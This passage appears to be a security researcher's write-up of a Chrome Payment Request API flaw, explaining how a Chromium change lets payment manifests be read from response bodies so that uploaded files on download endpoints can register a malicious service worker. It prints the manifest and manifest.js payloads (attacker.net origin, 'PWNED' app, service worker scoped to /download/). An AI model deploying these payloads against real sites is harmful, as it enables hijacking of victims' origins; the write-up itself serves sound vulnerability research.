 Indeed, a brief investigation revealed that on December 18, 2019, an issue with the Payment Request implementation was submitted to Chromium:

> the spec (https://w3c.github.io/payment-method-manifest/#accessing) requires that besides looking for the "Link", the direct access over URL is also allowed - "The machine-readable payment method manifest might be found either directly at the payment method identifier URL....".

In other words, the person pointed out that according to standards, we can transmit the payment-manifest both through a link and through the Link Header simultaneously.

The Chromium security team was involved in this ticket, approving the changes, and after a year, in March 2020, the fix became available in the stable branch of Chrome/Chromium.

# Vulnerability
The vulnerability became possible due to the change described in the previous point.

In fact, we have a unique situation where the vulnerability arises only when strictly adhering to web standards. This is because an important aspect was not taken into account during its development.

Many websites implement functionality for downloading user files, i.e., we have functionality like:
```
https://example.com/download?file=filename
https://example.com/download/filename
...
```
Such functionality should not pose direct security risks, because the Header is set:
```
Content-Disposition: attachment
```

Thus, the transmitted file will be loaded directly, preventing the possibility of XSS class attacks. This is because it is impossible to deliver an HTML code file to the user for rendering.

Considering that the Payments API started considering the file from the request body, let's just upload files to the target resource:
payment-manifest:
```JSON
{
    "default_applications": ["https://example.com/download/manifest.js"],
    "supported_origins": ["https://attacker.net"]
  }
```
manifest.js:
```JSON
{
    "name": "PWNED",
    "short_name": "PWNED",
    "icons": [{
        "src": "/download/logo.jpg",
        "sizes": "49x49",
        "type": "image/jpeg"
    }],
    "serviceworker": {
      "src": "/download/sw-slonser.js",
      "use_cache": false,
      "scope":"/download/"
    },
    "start_url":"/download/index.html"
}
```
logo.jpg:
```
* JPEG *
```

